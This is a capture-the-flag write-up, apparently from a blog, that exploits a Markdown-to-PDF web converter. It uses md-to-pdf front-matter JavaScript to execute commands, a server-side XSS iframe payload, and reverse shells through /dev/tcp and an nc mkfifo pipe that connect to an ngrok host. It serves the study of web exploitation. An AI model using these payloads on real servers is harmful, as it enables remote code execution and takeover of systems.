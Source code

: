 ```yaml
---
title: Mythic PDF Forge
date: 2023-12-10T13:37:49+02:00
author: 1byteBoy
tags:
  - Web
draft: false
---
```


## Description

This challenge gave us a web link to a website that converts Markdown formats to PDF format. 

All we have to do here is to write the marks down text or any text and then press generate. We can simply test this by doing the following 

Form Box

```
# Hello World
*This is a test*
```

Then press **`Generate`** button

we see that it opens a PDF page, where it converts or renders the markdown. OK so how do we exploit it !?

First thing i did is to google search *Markdown to PDF vulnerability and exploit*.

One of the page was https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

which talks about a possible `Remote Code Execution` in <u>md-to-pdf</u> package for versions <5.0.0, the thing is we don't know the version that is used here, until we check the inspect element page in PDF page, which shows

`PDF 6a3105f7f1140b692f023a47278f6ba1 [1.4 Skia/PDF m115 / Chromium] (PDF.js: 2.15.305)`

still not sure though skill issue =) 

but anyways let's try one of the payload from the snyk page that it suggests


```js
---js
((require("child_process")).execSync("id > /tmp/RCE.txt && cat /tmp/RCE.txt"))
---RCE';
```

it doesn't show anything nor does any other command, maybe it's it executing in the server-side only 

so since we are doing XSS and if it's executing in the server side, so i looked up for some Server Side XSS related to PDF and found some documentation on hack-tricks

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

and yes most of the payload from there was working. Even the following payload worked and showed something about a resume 

```js
<script>
document.write('<iframe src="'+window.location.href+'"></iframe>')
</script>
```

unfortunately only after trying different thing for a minute it wasn't working anymore, and showing us an API error from the backend.

I tried other things but nothing was helping out.. I tried reading different bug bounty writeups, GitHub issues there it seems it was talking about the previous payload and a possible RCE.

I found a YouTube video of John Hammond https://www.youtube.com/watch?v=QVaf4DMYPFc

Where he explains and tried to get a RCE the process is as follows

- set up a `netcat` listener on port `9999`
- then forward that port to the internet using `ngrok` : `ngrok tcp 9999`
- create a reverse shell using https://www.revshells.com/
	- use ip as `0.tcp.in.ngrok.io`
	- and port that is after it `:<port>` 
	- paste those in the ip&port section and we have a reverse shell code

Now let's create the payload 

```js
---js
((require("child_process")).execSync("sh -i >& /dev/tcp/0.tcp.in.ngrok.io/<forwarded_ip> 0>&1"))
---RCE
```

the only thing here is it wan't working, i was tired and sleepy so i left but the next day my teammate `@Soham5007v` found out the issue or problem. The thing is we have to use a different kind of reverse shell.

In the revsheels.com we can see a section as `nc mkfifo` that's what we have to use, why neither of us know, he just tried one after another.

anyways so now the payload would look something like 

```js
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 0.tcp.in.ngrok.io <forwarded_ip> >/tmp/f"))
---RCE
```

and whalla we get the shell, now we can cat the file named `flag.txt` and read the flag

Flag : **`flag{un1esh_t4e_f0rge_666f726765}`**




